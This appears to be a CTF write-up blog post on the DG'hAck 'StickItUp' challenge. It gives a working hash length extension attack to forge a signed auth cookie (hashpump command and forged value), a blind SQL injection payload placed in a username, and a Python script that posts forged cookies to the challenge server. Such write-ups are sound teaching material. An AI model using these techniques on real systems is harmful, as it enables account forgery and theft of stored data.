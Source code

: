 ```yaml
---
title: "Writeup DG'hAck: StickItUp"
date: 2020-11-30T11:26:24+01:00
draft: false
tags: ["blog", "security", "ctf", "dghack"]
type: "posts"
showDate: true
---
```


When starting this challenge, we're greeted by two forms, a login one and a registration one. Registering for an account allows us to login, which brings us to this dashboard:

[![The dashboard](/assets/dghack/stick-it-up-dashboard.png)](/assets/dghack/stick-it-up-dashboard.png)

We're asked to find a note created by the `admin` user. I started by trying a few SQLi on the login page (they didn't work), and noticed this in the source code:

```php
<!-- $_COOKIES['auth'] = 'testuser:' . sha1(SECRET_KEY . 'testuser'); -->
```

So the `auth` cookie format is `username:hash`, where the hash is a SHA1 of a secret plus the username.

Now this **should** immediatly make you think of an [hash key length extension attack](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks). It allows an attacker to append arbitrary data at the end of the hashed value.

Looking at the cookies, we do find the hash:

```
test:14dc77bd8d95f3093afd7b8538a518ac17dcac14
```

Let's check that the attack is working, using the [hashpump tool](https://github.com/bwall/HashPump):

```bash
$ hashpump -s 14dc77bd8d95f3093afd7b8538a518ac17dcac14 -d test -a suffix -k 16
6cfe1c2b324630def13b186bb3f1c675e79d8c23
test\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xa0suffix
```

The first line is the new hash, the second is the updated data. I tried different keylengths before finding the right one. The cookie we have to set is:

```
auth=test%C2%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%C2%A0suffix%3A6cfe1c2b324630def13b186bb3f1c675e79d8c23
```

*Warning: if you struggle to generate the cookie, be sure that you pasted the username correctly; for example in python use `b""` instead of `""`, or directly use the `hashpumpy` module.*

After a quick reload, we see:

[![The edited username seen when logging in](/assets/dghack/stick-it-up-edited-username.png)](/assets/dghack/stick-it-up-edited-username.png)

Which confirms that the exploit is working. For the next part, we have to notice this message on the registration form:

[![The registration form](/assets/dghack/stick-it-up-only-letters-numbers.png)](/assets/dghack/stick-it-up-only-letters-numbers.png)

While it's not unusual for the charset of a username to be restricted, in our case we're free to add any character that we want. It's worth a shot to try an SQLi.

After adding a single quote to the username, we can't create notes anymore. This is a blind SQLi!

To help create a payload, we can guess both the table name and structure, as well as the query:

```sql
CREATE TABLE note (
    username text,
    title text,
    content text
);

-- Add a sample flag.
INSERT INTO note VALUES ("admin", "flag", "flag");

-- This is the query we're trying to break.
INSERT INTO notes VALUES (username, "title", "content");
```

[SQL Fiddle](http://sqlfiddle.com) was of great help. The injection we can find, after a few attempts, is:

```
","",""), ("test", "flag", (select content from note a limit 1))#
```

Note the table alias, which I forgot to add for quite a while. The injection works by inserting a second row, in the account that we want, with the first note in the table.

After creating the updated username and hash, logging in with the forged cookie, and attempting to create a note, we switch to the `test` account, and see:

[![The note of the test user](/assets/dghack/stick-it-up-flag.png)](/assets/dghack/stick-it-up-flag.png)

Here we go, the flag is `-+-{{akUX7Aihx9}}-+-`.

---

Bonus: the script I used to easily try different SQLi:

```python
import sys
import requests
import hashpumpy
import urllib.parse

DATA = "test"
SIGNATURE = "14dc77bd8d95f3093afd7b8538a518ac17dcac14"

suffix = sys.argv[1]

new_signature, new_string = hashpumpy.hashpump(SIGNATURE, DATA, suffix, 16)
cookie = urllib.parse.quote(new_string + b":" + new_signature.encode())

requests.post(
    "http://stickitup.chall.malicecyber.com/notes.php",
    data={
        "title": "test",
        "text": "test",
    },
    cookies={
        "auth": cookie,
    },
)
```

---

[View all of the DG'hAck articles](/tags/dghack).
